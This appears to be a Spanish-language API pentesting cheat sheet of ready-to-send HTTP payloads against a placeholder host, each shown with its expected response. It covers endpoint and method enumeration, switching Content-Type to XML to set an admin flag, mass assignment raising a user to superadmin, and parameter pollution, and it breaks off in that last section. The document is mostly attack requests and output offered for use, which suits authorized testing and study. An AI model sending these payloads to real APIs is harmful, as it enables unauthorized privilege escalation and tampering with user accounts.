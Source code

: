 # 🌃 Real World Payloads

## Enumeración de Rutas y Métodos HTTP

### Descubrimiento de Rutas

```http
GET /api/swagger.json HTTP/1.1
Host: target.com

GET /api/v1/users HTTP/1.1
Host: target.com

GET /api/admin HTTP/1.1
Host: target.com
```

#### Respuesta esperada

```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "paths": {
    "/users": {
      "get": {
        "summary": "Retrieve user list"
      },
      "post": {
        "summary": "Create a new user"
      }
    },
    "/admin": {
      "get": {
        "summary": "Admin panel access"
      }
    }
  }
}
```

### Enumeración de Métodos HTTP

```json
GET /api/users/123 HTTP/1.1
Host: target.com

POST /api/users HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "username": "new_user",
  "email": "user@example.com"
}

DELETE /api/users/123 HTTP/1.1
Host: target.com
```

#### Respuesta esperada

**Para** `**GET**`**:**

```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "id": 123,
  "username": "test_user",
  "email": "test@example.com"
}
```

**Para** `**POST**`**:**

```json
HTTP/1.1 201 Created
Content-Type: application/json

{
  "message": "User created successfully.",
  "userId": 124
}
```

**Para** `**DELETE**`**:**

```http
HTTP/1.1 204 No Content
```

***

## Manipulación de Content-Type

### JSON a XML

```xml
POST /api/resource HTTP/1.1
Host: target.com
Content-Type: application/xml

<user>
  <id>123</id>
  <isAdmin>true</isAdmin>
</user>
```

#### Respuesta esperada

```xml
HTTP/1.1 200 OK
Content-Type: application/xml

<response>
  <status>success</status>
  <message>User elevated to admin.</message>
</response>
```

### Cambio a un Content-Type Inesperado

```json
POST /api/resource HTTP/1.1
Host: target.com
Content-Type: text/plain

{"username":"admin"}
```

#### Respuesta esperada

```json
HTTP/1.1 500 Internal Server Error
Content-Type: text/plain

Error: Unexpected content type.
```

**O bien:**

```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "username": "admin",
  "role": "admin"
}
```

***

## Mass Assignment

### Campos Ocultos Modificados

```json
PATCH /api/users/123 HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "username": "regular_user",
  "isAdmin": true,
  "role": "superadmin"
}
```

#### Respuesta esperada

```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "message": "User updated successfully.",
  "username": "regular_user",
  "isAdmin": true,
  "role": "superadmin"
}
```

***

## Server-Side Parameter Pollution

### Parámetros Duplicados

```http
GET /api/resource?name=admin&name=superadmin HTTP/1.1
Host: target.com
```

#### Respuesta esperada

**En Node.js/Express:**

```http
HTTP/1.1 200 OK
Content-Type: application/json
```
